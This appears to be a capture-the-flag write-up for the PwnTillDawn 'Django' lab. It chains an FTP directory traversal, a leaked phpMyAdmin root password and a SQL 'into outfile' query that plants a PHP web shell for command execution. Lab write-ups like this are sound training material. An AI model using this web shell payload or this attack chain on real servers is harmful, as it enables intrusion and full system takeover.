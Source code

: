 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 17:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and there are some exploits out there.<br>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
![image](https://user-images.githubusercontent.com/67085453/143782261-e0d2440d-6184-4d29-973e-27857d8eaa64.png)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
![image](https://user-images.githubusercontent.com/67085453/143782281-c9e6163d-ca6d-458e-bfb4-9d134a506dde.png)<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782293-2d934d99-50cc-4921-952d-30f772351b56.png)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
![image](https://user-images.githubusercontent.com/67085453/143782297-855aaeea-7b7f-4911-8541-5ebab092007a.png)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
![image](https://user-images.githubusercontent.com/67085453/143782302-b13f94e1-569b-4f0d-8db6-6af9f8ee7677.png)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
![image](https://user-images.githubusercontent.com/67085453/143782329-3679b60e-d2ed-46bb-ad88-45164bb76bef.png)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782333-aa8a1e32-8d2b-4ac8-8990-88b082b5503d.png)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
![image](https://user-images.githubusercontent.com/67085453/143782341-e9e3c7b1-5860-4661-997f-752d7cd4453c.png)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782348-2eeb504a-c02d-4c84-8b67-cb559b0ae626.png)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
![image](https://user-images.githubusercontent.com/67085453/143782353-db573f36-5613-487e-a99c-e8854b0f31de.png)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
